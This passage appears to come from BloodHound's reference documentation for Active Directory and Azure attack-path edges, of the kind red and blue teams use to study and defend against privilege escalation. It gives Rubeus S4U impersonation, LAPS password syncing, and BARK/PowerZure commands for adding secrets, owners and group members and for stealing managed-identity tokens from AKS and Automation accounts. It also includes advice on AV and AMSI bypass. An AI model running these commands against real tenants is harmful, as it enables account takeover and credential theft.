  Rubeus.exe s4u /user:<trusted user> /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

Opsec Considerations
--------------------

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the
ability to send/receive traffic in the domain.

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

AddAllowedToAct
^^^^^^^^^^^^^^^

The ability to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property allows an attacker
to abuse resource-based constrained delegation to compromise the remote computer system. This
property is a binary DACL that controls what security principals can pretend to be any domain
user to the particular computer object.

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
-----------

See the AllowedToAct edge section for abuse info

Opsec Considerations
--------------------

See the AllowedToAct edge section for opsec considerations

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

WriteAccountRestrictions
^^^^^^^

This edge indicates the principal has the ability to write to modify several properties on the target principal, most notably the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. The ability to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property allows an attacker to abuse resource-based constrained delegation to compromise the remote computer system. This property is a binary DACL that controls what security principals can pretend to be any domain user to the particular computer object.

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>



Abuse Info
------------

See the AllowedToAct edge section for abuse info


Opsec Considerations
--------------------

See the AllowedToAct edge section for opsec considerations


References
----------

* https://attack.mitre.org/techniques/T1098/
* https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/
* https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions

|
----

|

TrustedBy
^^^^^^^^^

This edge is used to keep track of domain trusts, and maps to the direction of access.

Abuse Info
-----------

This edge will come in handy when analzying how to jump a forest trust to get enterprise
admin access from domain admin access within a forest. For more information about that
attack, see https://blog.harmj0y.net/redteaming/the-trustpocalypse/

References
----------

https://blog.harmj0y.net/redteaming/the-trustpocalypse/

|

----

|

SyncLAPSPassword
^^^^^^^^^^^^^^^^^^^^

A principal with this signifies the capability of retrieving, through a directory 
synchronization, the value of confidential and RODC filtered attributes, such as 
LAPS' *ms-Mcs-AdmPwd*.

Abuse Info
------------

To abuse these privileges, use DirSync:
    
::

    Sync-LAPS -LDAPFilter '(samaccountname=TargetComputer$)'
    
For other optional parameters, view the DirSync documentation.

Opsec Considerations
--------------------

Executing the attack will generate a 4662 (An operation was performed on an object) 
event at the domain controller if an appropriate SACL is in place on the target object.

References
----------

* https://github.com/simondotsh/DirSync
* https://simondotsh.com/infosec/2022/07/11/dirsync.html

|

----

|

AZAddMembers
^^^^^^^^^^^^

The ability to add other principals to an Azure security group

Abuse Info
------------

Via the Azure portal:
1. Find the group in your tenant (Azure Active Directory -> Groups -> Find Group in list)
2. Click the group from the list
3. In the left pane, click "Members"
4. At the top, click "Add members"
5. Find the principals you want to add to the group and click them, then click "select" at the bottom
6. You should see a message in the top right saying "Member successfully added"
    
Via PowerZure: Add-AzureADGroup -User [UPN] -Group [Group name]

Opsec Considerations
--------------------

The Azure activity log for the tenant will log who added what principal to what group, including the date and time.

References
----------

https://powerzure.readthedocs.io/en/latest/Functions/operational.html#add-azureadgroup
https://docs.microsoft.com/en-us/powershell/module/azuread/add-azureadgroupmember?view=azureadps-2.0-preview

|

----

|

AZAddOwner
^^^^^^^

This edge is created during post-processing. It is created against 
all App Registrations and Service Principals within the same tenant
when an Azure principal has one of the following Azure Active
Directory roles:

* Hybrid Identity Administrator
* Partner Tier1 Support
* Partner Tier2 Support
* Directory Synchronization Accounts

You will not see these privileges when auditing permissions against 
any of the mentioned objects when you use Microsoft tooling, including 
the Azure portal or any API.

Abuse Info
------------

You can use BARK to add a new owner to the target object. The 
BARK function you use will depend on the target object type, 
but all of the functions follow a similar syntax.

These functions require you to supply an MS Graph-scoped JWT
associated with the principal that has the privilege to add a
new owner to your target object. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT
by supplying a refresh token:

::

	$MGToken = Get-GraphTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"


To add a new owner to a Service Principal, use BARK's 
New-ServicePrincipalOwner function:

::

	New-ServicePrincipalOwner `
	    -ServicePrincipalObjectId "082cf9b3-24e2-427b-bcde-88ffdccb5fad" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token


To add a new owner to an App Registration, use BARK's New-AppOwner function:

::

	New-AppOwner `
	    -AppObjectId "52114a0d-fa5b-4ee5-9a29-2ba048d46eee" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token



Opsec Considerations
--------------------

Any time you add an owner to any Azure object, the AzureAD audit 
logs will create an event logging who added an owner to what object, 
as well as what the new owner added to the object was.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZAddSecret
^^^^^^^

Azure provides several systems and mechanisms for granting
control of securable objects within Azure Active Directory,
including tenant-scoped admin roles, object-scoped admin roles,
explicit object ownership, and API permissions.

When a principal has been granted "Cloud App Admin" or "App
Admin" against the tenant, that principal gains the ability to
add new secrets to all Service Principals and App Registrations.
Additionally, a principal that has been granted "Cloud App
Admin" or "App Admin" against, or explicit ownership of a
Service Principal or App Registration gains the ability to add
secrets to that particular object.

Abuse Info
------------

There are several ways to perform this abuse, depending on what
sort of access you have to the credentials of the object that
holds this privilege against the target object. If you have an
interactive web browser session for the Azure portal, it is as
simple as finding the target App in the portal and adding a new
secret to the object using the "Certificates & secrets" tab.
Service Principals do not have this tab in the Azure portal but
you can add secrets to them with the MS Graph API.
No matter what kind of control you have, you will be able to
perform this abuse by using BARK's New-AppRegSecret or
New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT
associated with the principal that has the privilege to add a
new secret to your target application. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT
by supplying a refresh token:

::

	$MGToken = Get-GraphTokenWithRefreshToken -RefreshToken "0.ARwA6WgJJ9X2qk..." -TenantID "contoso.onmicrosoft.com"

Then use BARK's New-AppRegSecret to add a new secret to the
target application:

::

	New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token

The output will contain the plain-text secret you just created
for the target app:

::

	New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token
	
	Name              Value
	----              ----- 
	AppRegSecretValue odg8Q~...
	AppRegAppId       4d31...
	AppRegObjectId    d878...

With this plain text secret, you can now acquire tokens as the
service principal associated with the app. You can easily do
this with BARK's Get-MSGraphToken function:

::

	PS /Users/andyrobbins> $SPToken = Get-MSGraphToken `
	-ClientID "4d31..." `
	-ClientSecret "odg8Q~..." `
	-TenantName "contoso.onmicrosoft.com"
	
	PS /Users/andyrobbins> $SPToken.access_token
	eyJ0eXAiOiJKV1QiLCJub...

Now you can use this JWT to perform actions against any other MS
Graph endpoint as the service principal, continuing your attack
path with the privileges of that service principal.

Opsec Considerations
--------------------

When you create a new secret for an App or Service Principal,
Azure creates an event called "Update application - Certificates
and secrets management". This event describes who added the secret
to which application or service principal.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://docs.microsoft.com/en-us/azure/active-directory/roles/assign-roles-different-scopes

|

----

|

AZAKSContributor
^^^^^^^

The Azure Kubernetes Service Contributor role grants full control
of the target Azure Kubernetes Service Managed Cluster. This includes 
the ability to remotely fetch administrator credentials for the cluster 
as well as the ability to execute arbitrary commands on compute 
nodes associated with the AKS Managed Cluster.

Abuse Info
------------

You can use BARK's Invoke-AzureRMAKSRunCommand function 
to execute commands on compute nodes associated with the 
target AKS Managed Cluster.

This function requires you to supply an Azure Resource Manager
scoped JWT associated with the principal that has the privilege
to execute commands on the cluster. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT
by supplying a refresh token:

::

	$ARMToken = Get-ARMTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"

Now you can use BARK's Invoke-AzureRMAKSRunCommand function 
to execute a command against the target AKS Managed Cluster.
For example, to run a simple "whoami" command:

::

	Invoke-AzureRMAKSRunCommand `
	    -Token $ARMToken `
	    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
	    -Command "whoami"

If the AKS Cluster or its associated Virtual Machine Scale Sets 
have managed identity assignments, you can use BARK's 
Invoke-AzureRMAKSRunCommand function to retrieve a JWT for the 
managed identity Service Principal like this:

::

	Invoke-AzureRMAKSRunCommand `
	    -Token $ARMToken `
	    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
	    -Command \'curl -i -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com/&api-version=2019-08-01"\'

If successful, the output will include a JWT for the managed identity 
service principal.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/

|

----

|

AZAppAdmin
^^^^^^^^^^

Principals with the Application Admin role can control tenant-resident apps.

Abuse Info
------------

Create a new credential for the app, then authenticate to the tenant as the
app’s service principal, then abuse whatever privilege it is that the service
principal has.

Opsec Considerations
--------------------

The Azure portal will create a log even whenever a new credential is created for a service principal.

References
----------

https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/

|

----

|

AZAutomationContributor
^^^^^^^

The Azure Automation Contributor role grants full control
of the target Azure Automation Account. This includes 
the ability to execute arbitrary commands on the Automation 
Account.

Abuse Info
------------

You can use BARK's New-AzureAutomationAccountRunBook and 
Get-AzureAutomationAccountRunBookOutput functions to execute
arbitrary commands against the target Automation Account.

These functions require you to supply an Azure Resource Manager
scoped JWT associated with the principal that has the privilege
to add or modify and run Automation Account run books. There are
several ways to acquire a JWT. For example, you may use BARK's
Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT
by supplying a refresh token:

::

	$ARMToken = Get-ARMTokenWithRefreshToken `
	    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
	    -TenantID "contoso.onmicrosoft.com"

Now you can use BARK's New-AzureAutomationAccountRunBook function 
to add a new runbook to the target Automation Account, specifying
a command to execute using the -Script parameter:

::

	New-AzureAutomationAccountRunBook `
	    -Token $ARMToken `
	    -RunBookName "MyCoolRunBook" `
	    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" `
	    -Script "whoami"

After adding the new runbook, you must execute it and fetch its 
output. You can do this automatically with BARK's
Get-AzureAutomationAccountRunBookOutput function: 

::

	Get-AzureAutomationAccountRunBookOutput `
	    -Token $ARMToken `
	    -RunBookName "MyCoolRunBook" `
	    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"

If the Automation Account has a managed identity assignment, you can use
these two functions to retrieve a JWT for the service principal like this:

::

	$Script = $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"; $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI; $tokenResponse.access_token
	New-AzureAutomationAccountRunBook -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" -Script $Script
	Get-AzureAutomationAccountRunBookOutput -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"

If successful, the output will include a JWT for the managed identity 
service principal.

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a

|

----

|

AZAvereContributor
^^^^^^^

Any principal granted the Avere Contributor role, scoped to the
affected VM, can reset the built-in administrator password on the
VM.

Abuse Info
------------

The Avere Contributor role allows you to run SYSTEM
commands on the VM

Via PowerZure:

* `Invoke-AzureRunCommand <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azureruncommand>`_
* `Invoke-AzureRunMSBuild <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunmsbuild>`_
* `Invoke-AzureRunProgram <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#invoke-azurerunprogram>`_


Opsec Considerations
--------------------

Because you'll be running a command as the SYSTEM user on the
Virtual Machine, the same opsec considerations for running malicious
commands on any system should be taken into account: command line
logging, PowerShell script block logging, EDR, etc.

References
----------

* https://attack.mitre.org/tactics/TA0008/
* https://attack.mitre.org/techniques/T1021/
* https://docs.microsoft.com/en-us/azure/role-based-access-control/built-in-roles#avere-contributor

|

----

|

AZCloudAppAdmin
^^^^^^^^^^^^^^^

Principals with the Cloud App Admin role can control tenant-resident apps.

Abuse Info
------------

Create a new credential for the app, then authenticate to the tenant as the
app’s service principal, then abuse whatever privilege it is that the service
principal has.

Opsec Considerations
--------------------

The Azure portal will create a log even whenever a new credential is created for a service principal.

References
----------

https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/

|

----

|

AZContains
^^^^^^^^^^

This indicates that the parent object contains the child object, such as a resource
group containing a virtual machine, or a tenant "containing" a subscription.

|

----

|

AZContributor
^^^^^^^^^^^^^

The contributor role grants almost all abusable privileges in all circumstances,
with some exceptions. Those exceptions are not collected by AzureHound.

Abuse Info
------------

This depends on what the target object is:
* **Key Vault:** You can read secrets and alter access policies (grant yourself
access to read secrets)
* **Automation Account:** You can create a new runbook that runs as the Automation
Account, and edit existing runbooks. Runbooks can be used to authenticate as the
Automation Account and abuse privileges held by the Automation Account. If the
Automation Account is using a ‘RunAs’ account, you can gather the certificate used
to login and impersonate that account.
* **Virtual Machine:** Run SYSTEM commands on the VM

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in general Azure will
create a log event for each abuse.

References
----------

https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/
https://blog.netspi.com/azure-automation-accounts-key-stores/
https://blog.netspi.com/get-azurepasswords/
https://blog.netspi.com/attacking-azure-cloud-shell/

|

----

|

AZExecuteCommand
^^^^^^^

Principals with the Intune Administrators role are able to
execute arbitrary PowerShell scripts on devices that are joined
to the Azure Active Directory tenant.

Abuse Info
------------

First, have your PowerShell script ready to go and save it
somewhere as a PS1 file. Take all the necessary operational
security (opsec) and AMSI-bypass steps you want at this point,
keeping in mind the script will run as the SYSTEM user unless
you specify otherwise. Also keep in mind that the script will
be written to disk, so take whatever AV bypass measures you need
as well.

Next, log into the Azure web portal as the user with the "Intune
Administrator" role activated. After authenticating, access Endpoint
Manager at https://endpoint.microsoft.com.

Click on "Devices" on the left, which takes you, unsurprisingly, to
the devices overview. Click on "Scripts" under the "Policy" section
to go to the scripts management page. Click "Add," then click "Windows
10".

This will bring you to the "Add Powershell Script" page. On this first
page, you'll enter a name for the script and a brief description. On the
next page, click the folder and then select your PS1 from the common
dialogue window. You've now got three options to configure, but can
leave them all in the default "No" position. Most interestingly, keeping
the first selection as "No" will cause the script to run as the SYSTEM user.

Click next, and you'll see the page that lets you scope which systems and
users this script will execute for. You can choose to assign the script to
"All devices," "All users," or "All users and devices." If you leave the
"Assign to" dropdown at its default selection of "Selected groups," you can
scope the script to only execute on systems or for users that belong to
certain security groups. The choice is yours: run the script on every
possible system or constrain it to only run on certain systems by scoping it
to existing security groups or by adding specific devices or users to new
security groups.

Click "Next" and you'll see the review page which lets you see what you're
about to do. Click "Add" and Azure will begin registering the script.
At this point, the script is now ready to run on your target systems. This
process works similarly to Group Policy, in that the Intune agent running
on each device periodically checks in (by default every hour) with
Intune/Endpoint Manager to see if there is a PowerShell script for it to run,
so you will need to wait up to an hour for your target system to actually pull
the script down and run it.

Opsec Considerations
--------------------

When the Intune agent pulls down and executes PowerShell
scripts, a number of artifacts are created on the endpoint -
some permanent and some ephemeral.

Two files are created on the endpoint when a PowerShell script
is executed in the following locations::

  C:\Program files (x86)\Microsoft Intune Management Extension\Policies\Scripts
  C:\Program files (x86)\Microsoft Intune Management Extension\Policies\Results

The file under the "Scripts" folder will be a local copy of the
PS1 stored in Azure, and the file under the "Results" folder
will be the output of the PS1; however, both of these files are
automatically deleted as soon as the script finishes running.
There are also permanent artifacts left over (assuming the
attacker doesn't tamper with them). A full copy of the contents
of the PS1 can be found in this log file::

	C:\ProgramData\Microsoft\IntuneManagementExtension\Logs\_IntuneManagementExtension.txt

References
----------

* https://attack.mitre.org/tactics/TA0002/
* https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d

|

----

|

AZGetCertificates
^^^^^^^^^^^^^^^^^

The ability to read certificates from key vaults.

Abuse Info
------------

Use PowerShell or PowerZure to fetch the certificate from the key vault.
    
Via PowerZure:

* Get-AzureKeyVaultContent
* Export-AzureKeyVaultcontent

Opsec Considerations
--------------------

Azure will create a new log event for the key vault whenever a secret is accessed.

References
----------

https://blog.netspi.com/azure-automation-accounts-key-stores/
https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent

|

----

|

AZGetKeys
^^^^^^^^^

The ability to read keys from key vaults.

Abuse Info
------------

Use PowerShell or PowerZure to fetch the certificate from the key vault.
    
Via PowerZure:

* Get-AzureKeyVaultContent
* Export-AzureKeyVaultcontent

Opsec Considerations
--------------------

Azure will create a new log event for the key vault whenever a secret is accessed.

References
----------

https://blog.netspi.com/azure-automation-accounts-key-stores/
https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent

|

----

|

AZGetSecrets
^^^^^^^^^^^^

The ability to read secrets from key vaults.

Abuse Info
------------

Use PowerShell or PowerZure to fetch the certificate from the key vault.
    
Via PowerZure:

* Get-AzureKeyVaultContent
* Export-AzureKeyVaultcontent

Opsec Considerations
--------------------

Azure will create a new log event for the key vault whenever a secret is accessed.

References
----------

https://blog.netspi.com/azure-automation-accounts-key-stores/
https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent

|

----

|

AZGlobalAdmin
^^^^^^^^^^^^^

This edge indicates the principal has the Global Admin role active against
the target tenant. In other words, the principal is a Global Admin. Global
Admins can do almost anything against almost every object type in the tenant,
this is the highest privilege role in Azure.

Abuse Info
------------

As a Global Admin, you can change passwords, run commands on VMs, read key vault
secrets, activate roles for other users, etc.

For Global Admin to be able to abuse Azure resources, you must first grant yourself
the ‘User Access Administrator’ role in Azure RBAC. This is done through a toggle
button in the portal, or via the PowerZure function Set-AzureElevatedPrivileges. 
    
Once that role is applied to account, you can then add yourself as an Owner to all
subscriptions in the tenant

Opsec Considerations
--------------------

This depends on exactly what you do, but in general Azure will log each abuse action.

References
----------

https://blog.netspi.com/attacking-azure-cloud-shell/

|

----

|

AZHasRole
^^^^^^^

This edge indicates that a principal has been granted a particular
AzureAD admin role.

Abuse Info
------------

No abuse is necessary. This edge only indicates
that the principal has been granted a particular
AzureAD admin role.

Opsec Considerations
--------------------

The opsec considerations for a particular action authorized by a
principal&ldquo;s active AzureAD role assignment will wholly depend
on what the action taken is. This edge does not capture all abusable
possibilities.

References
----------

* https://docs.microsoft.com/en-us/graph/permissions-reference
* https://docs.microsoft.com/en-us/azure/role-based-access-control/overview

|

----

|

AZKeyVaultKVContributor
^^^^^^^

The Key Vault Contributor role grants full control of the 
target Key Vault. This includes the ability to read all secrets 
stored on the Key Vault.

Abuse Info
------------

You can read secrets and alter access policies (grant yourself access to read secrets)

Via PowerZure:

* `Get-AzureKeyVaultContent <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#get-azurekeyvaultcontent>`_
* `Export-AzureKeyVaultContent <https://powerzure.readthedocs.io/en/latest/Functions/operational.html#export-azurekeyvaultcontent>`_


Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/ 
* https://blog.netspi.com/azure-automation-accounts-key-stores/
* https://blog.netspi.com/get-azurepasswords/
* https://blog.netspi.com/attacking-azure-cloud-shell/

|

----

|

AZLogicAppContributor
^^^^^^^

The Logic Contributor role grants full control
of the target Logic App. This includes the ability
to execute arbitrary commands on the Logic App.

Abuse Info
------------

Currently you need access to the portal GUI to execute this abuse.
The abuse involves adding or modifying an existing logic app to coerce 
the logic app into sending a JWT for its managed identity service principal
to a web server you control.

You can see a full walkthrough for executing that abuse in this blog post:
`Andy Robbins - Managed Identity Attack Paths, Part 2: Logic Apps <https://medium.com/p/52b29354fc54>`_

Opsec Considerations
--------------------

This will depend on which particular abuse you perform, but in
general Azure will create a log event for each abuse.

References
----------

* https://github.com/BloodHoundAD/BARK
* https://medium.com/p/52b29354fc54

|

----

|

AZMemberOf
^^^^^^^

The given asset is a member of the group.

Groups in Azure Active Directory grant their direct members any privileges
the group itself has. If a group has an AzureAD admin role, direct members
of the group inherit those permissions.

Abuse Info
------------

No abuse is necessary. This edge simply indicates that a principal
belongs to a security group.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://docs.microsoft.com/en-us/azure/active-directory/roles/groups-create-eligible

|

----

|

AZMGAddMember
^^^^^^^

This edge is created during post-processing. It is created against 
non role assignable Azure AD security groups when a Service
Principal has one of the following MS Graph app role assignments:

* Directory.ReadWrite.All
* Group.ReadWrite.All
* GroupMember.ReadWrite.All


It is created against all Azure AD security groups, including those 
that are role assignable, when a Service Principal has the following 
MS Graph app role:

* RoleManagement.ReadWrite.Directory


You will not see this privilege when using just the Azure portal 
or any other Microsoft tooling. If you audit the roles and administrators 
affecting any particular Azure security group, you will not see 
that the Service Principal can add members to the group, but it 
indeed can because of the parallel access management system used 
by MS Graph.

Abuse Info
------------

You can abuse this privilege using BARK's Add-AZMemberToGroup
function.

This function requires you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to add principal to the target group. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"


Then use BARK's Add-AZMemberToGroup function to add a new principial 
to the target group:

::

	Add-AZMemberToGroup `
	    -PrincipalID = "028362ca-90ae-41f2-ae9f-1a678cc17391" `
	    -TargetGroupId "b9801b7a-fcec-44e2-a21b-86cb7ec718e4" `
	    -Token $MGToken.access_token


Now you can re-authenticate as the principial you just added to the group
and continue your attack path, now having whatever privileges the target
group has.

Opsec Considerations
--------------------

The Azure activity log for the tenant will log who added what
principal to what group, including the date and time.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGAddOwner
^^^^^^^

This edge is created during post-processing. It is created against 
all App Registrations and Service Principals within the same tenant 
when a Service Principal has the following MS Graph app role:

* Application.ReadWrite.All


It is also created against all Azure Service Principals when a 
Service Principal has the following MS Graph app role:

* ServicePrincipalEndpoint.ReadWrite.All


It is also created against all Azure security groups that are not 
role eligible when a Service Principal has one of the following MS 
Graph app roles:

* Directory.ReadWrite.All
* Group.ReadWrite.All


Finally, it is created against all Azure security groups and all 
Azure App Registrations when a Service Principal has the following 
MS Graph app role:

* RoleManagement.ReadWrite.Directory


You will not see these privileges when auditing permissions against 
any of the mentioned objects when you use Microsoft tooling, including 
the Azure portal and the MS Graph API itself.

Abuse Info
------------

You can use BARK to add a new owner to the target object. The 
BARK function you use will depend on the target object type, 
but all of the functions follow a similar syntax.

These functions require you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to add a new owner to the target object. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"


To add a new owner to a Service Principal, use BARK's 
New-ServicePrincipalOwner function:

::

	New-ServicePrincipalOwner `
	    -ServicePrincipalObjectId "082cf9b3-24e2-427b-bcde-88ffdccb5fad" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token


To add a new owner to an App Registration, use BARK's New-AppOwner function:

::

	New-AppOwner `
	    -AppObjectId "52114a0d-fa5b-4ee5-9a29-2ba048d46eee" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token


To add a new owner to a Group, use BARK's New-GroupOwner function:

::

	New-AppOwner `
	    -GroupObjectId "352032bf-161d-4788-b77c-b6f935339770" `
	    -NewOwnerObjectId "cea271c4-7b01-4f57-932d-99d752bbbc60" `
	    -Token $Token



Opsec Considerations
--------------------

Any time you add an owner to any Azure object, the AzureAD audit 
logs will create an event logging who added an owner to what object, 
as well as what the new owner added to the object was.

References
----------

* https://attack.mitre.org/techniques/T1098/
* https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5
* https://github.com/BloodHoundAD/BARK

|

----

|

AZMGAddSecret
^^^^^^^

This edge is created during post-processing. It is created against 
all Azure App Registrations and Service Principals when a Service 
Principal has one of the following MS Graph app roles:

* Application.ReadWrite.All
* RoleManagement.ReadWrite.Directory


You will not see this privilege when using just the Azure portal 
or any other Microsoft tooling. If you audit the roles and administrators 
affecting any particular Azure App or Service Principal, you will not see 
that the Service Principal can add secrets to the object, but it 
indeed can because of the parallel access management system used 
by MS Graph.

Abuse Info
------------

There are several ways to perform this abuse, depending on what
sort of access you have to the credentials of the object that
holds this privilege against the target object. If you have an
interactive web browser session for the Azure portal, it is as
simple as finding the target App in the portal and adding a new
secret to the object using the "Certificates & secrets" tab.
Service Principals do not have this tab in the Azure portal but
you can add secrets to them with the MS Graph API.
No matter what kind of control you have, you will be able to
perform this abuse by using BARK's New-AppRegSecret or
New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT 
associated with the Service Principal that has the privilege 
to add secrets to the target object. There are several ways to
acquire a JWT. For example, you may use BARK's
Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT
by supplying a Service Principal Client ID and secret:

::

	$MGToken = Get-MSGraphTokenWithClientCredentials `
	    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
	    -ClientSecret "asdf..." `
	    -TenantName "contoso.onmicrosoft.com"


Then use BARK's New-AppRegSecret to add a new secret to the
target application:

::

	New-AppRegSecret `
	    -AppRegObjectID "d878..." `
	    -Token $MGToken.access_token


The output will contain the plain-text secret you just created
for the target app:

::

	New-AppRegSecret `
	    -AppRegObjectID "d878..." `
	    -Token $MGToken.access_token
	
	Name                Value
	----                -----
	AppRegSecretValue   odg8Q~...
	AppRegAppId         4d31...
	AppRegObjectId      d878...


With this plain text secret, you can now acquire tokens as the
service principal associated with the app. You can easily do
this with BARK's Get-MSGraphToken function:

::


	$SPToken = Get-MSGraphToken `
	    -ClientID "4d31..." `
	    -ClientSecret "odg8Q~..." `
	    -TenantName "contoso.onmicrosoft.com"


Now you can use this JWT to perform actions against any other MS
Graph endpoint as the service principal, continuing your attack
path with the privileges of that service principal.

Opsec Considerations
--------------------

When you create a new secret for an App or Service Principal,
